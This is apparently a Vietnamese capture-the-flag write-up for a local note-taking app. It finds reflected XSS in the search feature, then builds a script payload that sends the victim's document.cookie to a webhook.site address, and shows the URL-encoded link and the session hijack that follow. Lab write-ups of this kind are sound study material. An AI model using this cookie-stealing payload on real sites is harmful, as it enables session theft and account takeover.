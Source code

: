 # HTML Injection 1

## Thử thách về lỗi bảo mật HTML Injection

## Mục tiêu: Đọc note của nạn nhân

## Note: Bạn có thể gửi link cho nạn nhân qua
# Phân tích
Đây là 1 web có chức năng ghi chú, và cho phép tìm kiếm lại ghi chú.  
Thử chức năng tìm kiếm có bị xss không:
```
<script>alert("XSS")</script>
```
Có hoạt động --> lỗi xss.
Muốn đọc các ghi chú, tìm cách lấy `document.cookie` của nạn nhận
```
<script>new Image().src="https://webhook.site/15665075-b653-4dc7-bdc2-10b1ace815cf?cookie="+document.cookie</script>
```
ở đây có sử dụng [webhook](https://webhook.site) để nhận thông tin 
<img src='./img/Screenshot 2025-08-05 at 23.30.26.png'>  

Thành công vs playload trên.
Play load gửi cho nạn nhận có dạnh:
```
http://localhost:13001/search?q=%3Cscript%3Enew+Image%28%29.src%3D%22https%3A%2F%2Fwebhook.site%2F15665075-b653-4dc7-bdc2-10b1ace815cf%3Fcookie%3D%22%2Bdocument.cookie%3C%2Fscript%3E
```
# Khai thác
Sau khi gửi ta nhận được cookie, tiến hành thay đổi cookie trên `browser` để lấy session của nạn nhận hiện tại và vào đọc các ghi chú.
<img src='./img/Screenshot 2025-08-05 at 23.15.18.png'>